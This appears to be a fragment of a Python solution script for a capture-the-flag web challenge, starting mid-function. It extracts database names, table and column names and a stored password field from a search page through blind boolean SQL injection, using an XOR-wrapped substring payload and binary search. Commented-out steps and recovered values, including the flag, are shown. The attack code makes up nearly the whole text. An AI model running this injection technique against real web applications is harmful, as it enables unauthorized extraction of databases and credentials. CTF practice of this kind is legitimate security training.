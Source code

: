 ```python
        max = 122
        while min < max:
            mid = (min + max) >> 1
            pw_url = url + f"?id=1^(ascii(substr((select(group_concat(password))from(F1naI1y)),{str(i)},1))>{str(mid)})^1"
            r = requests.get(pw_url)
            if "Click" in r.text:
                min = mid + 1
            else:
                max = mid
        mid = min
        pwname += chr(mid)
    return pwname

url = "http://5eb0077d-eb3d-435e-a13e-c2cc2fc0d166.node5.buuoj.cn:81/search.php"
# db_len = get_DBlen(url)
# print(f"Database name length: {db_len}")

# db_len = 4

# db_name = get_DBname(url, db_len)
# print(f"Database name: {db_name}")

# db_name='geek'

# tb_len = get_TBlen(url)
# print(f"Table names length: {tb_len}")

# tb_len = 16

# tb_name = get_TBname(url, 16)
# print(f"Table names: {tb_name}")

# tb_name='F1naI1y,Flaaaaag'
# 猜flag实际上是在前者里面

# cl_Len=get_CLlen(url)
# print(f"Column names length: {cl_Len}")

# cl_Len = 20

# cl_name = get_CLname(url, 20)
# print(f"Column names: {cl_name}")

# cl_name="id,username,password"

# pw_len = get_PWlen(url)
# print(f"Password length: {pw_len}")

# pw_len = 213

pw_name = get_PWname(url, 213)
print(f"Password: {pw_name}")

# pw_name = d,flagz0a381aba-2c3a-48e5-8098-7bc0e53415baz
# 这里的z因为我们的min-max范围里没有{}所以就变成最大的z了，手动改过来就可以，下次可以扩大一些范围

# flag{0a381aba-2c3a-48e5-8098-7bc0e53415ba}
```
